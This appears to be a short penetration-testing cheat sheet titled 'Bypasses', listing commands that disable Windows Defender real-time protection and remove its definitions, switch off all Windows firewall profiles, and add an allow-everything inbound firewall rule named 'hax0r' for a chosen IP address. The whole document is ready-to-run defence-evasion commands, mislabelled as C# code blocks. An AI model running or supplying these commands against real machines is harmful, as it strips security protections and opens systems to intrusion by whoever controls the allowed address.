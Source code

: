 # Bypasses

### Windows Defender

```csharp
#CMD
sc config WinDefend start= disabled
sc stop WinDefend

#Powershell
Set-MpPreference -DisableRealtimeMonitoring $true

#Remove definitions
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

### Firewall

```csharp
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off
```

### IP Whitelisting

```csharp
New-NetFirewallRule -Name hax0r -DisplayName hax0r -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress 10.10.10.19
```

